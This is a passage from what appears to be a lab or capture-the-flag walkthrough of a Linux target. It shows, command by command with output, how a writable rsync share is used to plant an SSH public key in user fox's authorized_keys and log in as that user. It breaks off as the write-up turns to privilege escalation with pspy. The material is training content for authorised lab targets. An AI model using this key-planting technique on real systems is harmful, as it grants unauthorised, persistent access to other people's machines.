 This worked perfectly. We could investigate these files, but there may be much more we can do with this foothold. We may also be able to upload files to the share.

### SSH

Since our Nmap scan showed that the SSH service is running on the target, let's create a _.ssh_ folder inside the user's home directory and then upload our SSH public key (**id_rsa.pub**) as **.ssh/authorized_keys**. We'll begin by creating the required directory locally.

```
kali@kali:~/rsync-share$ mkdir fox/.ssh -p
```

If we don't already have an SSH key pair, we can create one with `ssh-keygen`:

```
kali@kali:~/rsync-share$ mkdir ~/.ssh
kali@kali:~/rsync-share$ ssh-keygen -t rsa -N '' -f ~/.ssh/id_rsa
Generating public/private rsa key pair.
...
```

Let's copy our public key into the user's SSH folder and save it there as **authorized_keys**.

```
kali@kali:~/rsync-share$ cp ~/.ssh/id_rsa.pub fox/.ssh/authorized_keys
```

Next, we'll upload the folder containing our public key back to the target.

```
kali@kali:~/rsync-share$ rsync -avp fox/ fox@192.168.120.149::fox/
sending incremental file list
./
.ssh/
.ssh/authorized_keys

sent 735 bytes  received 46 bytes  520.67 bytes/sec
total size is 563  speedup is 0.72
```

After uploading our public key, we should be able to connect via SSH as `fox`.

```
kali@kali:~/rsync-share$ cd ..
kali@kali:~$ ssh -i /home/kali/.ssh/id_rsa fox@192.168.120.149
...
$ bash
fox@fail:~$ id
uid=1000(fox) gid=1001(fox) groups=1001(fox),1000(fail2ban)
```

## Escalation

### Process Enumeration with PSpy

The output of the `id` command indicates that this user is in the `fail2ban` group. Let's download the [pspy](https://github.com/DominicBreuker/pspy) process monitoring tool to the target to help us enumerate scheduled jobs. We'll host it on our attack machine with a python web server.
